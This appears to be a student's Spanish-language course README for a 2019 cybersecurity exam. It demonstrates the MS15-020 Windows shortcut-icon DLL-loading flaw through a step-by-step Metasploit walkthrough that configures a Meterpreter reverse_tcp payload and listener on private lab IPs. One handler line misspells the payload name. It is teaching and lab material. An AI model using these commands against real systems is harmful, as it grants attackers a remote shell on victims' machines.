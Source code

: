 # ciberseguridad-2019-1
Repositorio para Ciberseguridad 2019-I
Parcial Ciberseguridad 2019-1 

Juan Esteban Monsalve Echeverry

Vulnerabilidad
--------------

MS15-020: Una vulnerabilidad en Windows podría permitir la ejecución remota de código 

Las vulnerabilidades podrían permitir la ejecución remota de código si un atacante correctamente convence a un usuario visita un sitio web especialmente diseñado, abra un archivo especialmente diseñado o abrir un archivo en un directorio de trabajo que contiene un archivo DLL especialmente diseñado. 
Publicado: marzo 10, 2015

Sistema Operativo
-----------------
Windows XP, Windows 7 

Software 
Sistema opertativo: Kali Linux 
Herramienta: 
Metaexploit 

-----------------------------------------------------------------------------------------------------------
Instructivo 
-----------

msf > use exploit/windows/fileformat/ms15_020_shortcut_icon_dllloader 

msf exploit(ms15_020_shortcut_icon_dllloader) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp 

msf exploit(ms15_020_shortcut_icon_dllloader) > set lhost 10.191.5.5

lhost=> 10.191.5.5

msf exploit(ms15_020_shortcut_icon_dllloader) > set UNCHOST 10.191.5.6

UNCHOST => 10.191.5.6

msf exploit(ms15_020_shortcut_icon_dllloader) > set UNCSHARE share

UNCSHARE => share 

msf exploit(ms15_020_shortcut_icon_dllloader) > exploit

----------------------------------------------------------------------------------------------------------
use exploit/multi/handler 

set payload windows/meterpreter/reverser_tcp 

set lhost 10.191.5.5

----------------------------------------------------------------------------------------------------------
Video Demo
----------

https://youtu.be/oq0XCedmUwI

----------------------------------------------------------------------------------------------------------

Referencias
-----------

http://da1sy.cn/2018/05/MS15-020/
https://github.com/rapid7/metasploit-framework/pull/4911
https://www.rapid7.com/db/vulnerabilities/WINDOWS-HOTFIX-MS15-020
https://www.rapid7.com/db/modules/exploit/windows/fileformat/ms15_020_shortcut_icon_dllloader 

